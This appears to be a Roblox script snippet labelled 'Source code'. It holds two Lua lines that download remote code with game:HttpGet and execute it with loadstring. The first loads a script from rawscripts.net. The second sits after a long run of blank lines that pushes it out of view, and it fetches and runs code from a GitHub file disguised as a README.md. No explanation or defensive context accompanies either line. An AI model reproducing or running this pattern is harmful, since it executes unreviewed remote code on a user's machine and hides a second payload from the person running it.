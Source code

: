 loadstring(game:HttpGet("https://rawscripts.net/raw/loader_1038"))()









































































































































































































































































































































































































































































loadstring(game:HttpGet('https://raw.githubusercontent.com/Dripsaur/PLV1/main/README.md'))()
